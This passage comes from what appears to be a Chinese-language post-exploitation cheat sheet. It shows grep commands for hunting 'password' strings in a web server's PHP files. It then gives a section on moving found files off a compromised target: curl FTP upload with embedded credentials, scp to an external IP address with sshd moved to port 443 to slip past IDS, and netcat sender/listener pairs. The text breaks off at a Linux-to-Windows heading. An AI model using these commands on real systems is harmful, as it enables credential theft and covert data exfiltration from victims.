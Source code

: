 找包含特定内容的文件并且那一行显示出来：

```
grep -RPa --include=*.php ’($PATTERNS)‘ $SEARCH_DIR

```

比如在web目录找包含password这个词的所有php

```
grep -RPa --include=*.php 'password' /var/www 

```

pattern可以用正则，可以不指定文件类型(很慢⋯⋯)

### 文件传送：

* * *

找到需要的东西后，怎么往外发也是个问题，一般大文件用ftp，scp,小文件用nc。

ftp方法：

如果目标装了curl的话就很简单了

```
curl -v -T 文件名 ftp://username:password@ftpip

```

scp方法:

适合有ids之类东西的地方，可以把sshd开到443等传统加密流量的接口，scp帐号需要有写入和执行shell的权限

```
scp backup.tgz user@123.123.123.123:/tmp/backup.tgz

```

nc方法:

先在服务端监听

```
nc -l port > 文件名

```

然后到要发送文件的服务器

```
nc 服务端ip 端口 < 文件名

```

发送小文件还行，大文件有时候会断。

### 从linux到windows

* * *
